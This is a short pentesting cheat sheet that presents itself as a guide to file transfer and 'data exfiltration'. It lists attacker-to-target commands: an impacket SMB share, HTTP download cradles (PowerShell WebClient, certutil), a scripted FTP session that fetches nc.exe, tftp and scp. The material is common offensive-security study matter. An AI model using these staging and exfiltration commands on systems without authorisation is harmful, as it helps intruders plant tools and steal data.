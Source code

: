 # File Transfer Checklist

## Introduction

This runbook is to help with file transfering or data exfiltration. Transfering data to and from hosts is important.  This is a guide to walk through various methods.


## Table of Contents

- [File Transfer Checklist](#file-transfer-checklist)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [SMB Server](#smb-server)
  - [HTTP](#http)
    - [Server](#server)
    - [Client](#client)
  - [Pure-FTPd](#pure-ftpd)
  - [tftp](#tftp)
  - [scp](#scp)

## SMB Server

```sh
# kali
impacket-smbserver share . -smb2support -user user -password test123
```
```cmd
# windows
net use z: \\<smbserver>\share /USER:user test123
copy z:\ .
```

## HTTP

### Server

```sh
python -m SimpleHTTPServer 8080
```

```sh
service apache2 start
```

### Client

Windows
``` cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\temp\file.exe')"
iwr -uri http://<IP>/file -Outfile c:\temp\file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<ip>:803/ok.exe ok.exe  
```

Linux
```sh
wget http://<ip>/file
curl http://<ip>/file > file
```

## Pure-FTPd

```sh
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

Transfer
```
echo open <IP> 21> ftp.txt
echo USER <user> >> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```
ftp -v -n -s:ftp.txt
```

## tftp


Config
```
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```
Transfer
```
tftp -i <IP> get file
```

## scp

Local File to a Remote System
```sh 
scp file <user>@192.168.0.20:/home/<directory>/
```
Remote File to a Local System
```sh 
scp <user>@192.168.0.20:/home/<directory>/ file
```

 <!--- Last Updated July 8, 2024 --->